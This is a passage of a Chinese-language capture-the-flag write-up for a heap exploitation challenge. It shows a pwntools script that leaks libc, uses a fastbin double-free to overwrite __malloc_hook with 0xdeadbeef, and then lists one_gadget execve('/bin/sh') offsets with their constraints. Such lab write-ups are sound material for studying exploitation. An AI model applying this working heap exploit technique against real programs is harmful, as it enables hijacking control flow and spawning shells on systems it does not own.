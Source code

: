 ```python
clear   = lambda                :  (sla("choice : ","4"))

#leak libc
add(500,'1','1')
add(0x28,'2','2')
add(10,'3','3')
rm(0);rm(1)
add(500,'','4')
show()
ru("flower[3] :")
libc_addr = uu64(io.recv(6))-0x3c3b0a
leak("libc",libc_addr)
leak("gdb_libc",gdb_libc_base)

malloc_hook = libc_addr + libc.symbols['__malloc_hook']
fake_chunk = malloc_hook-0x23
add(0x60,'1','1')
add(0x60,'1','1')
rm(4);rm(5);rm(4)
add(0x60,p64(fake_chunk),'1')
add(0x60,'1','1')
add(0x60,'1','1')
add(0x60,'a'*19+p64(0xdeadbeef),'1')
debug(0x107b,"x /200bx "+hex(libc_addr+libc.symbols['__malloc_hook']-0x50))
add(10,'1','1')

io.interactive()

```

即可成功劫持控制流到0xdeadbeef

### one_gadget利用约束

因为只能去修改__malloc_hook，而malloc函数的参数一般为数值，所以如果基本无法利用system函数，将数值利用成字符串地址，因为一旦有小数值就会产生非法地址访问。最终还是只能选择one_gadget。

本题的libc有4个one_gadget

```
$ one_gadget libc_64.so.6 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xef6c4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf0567 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
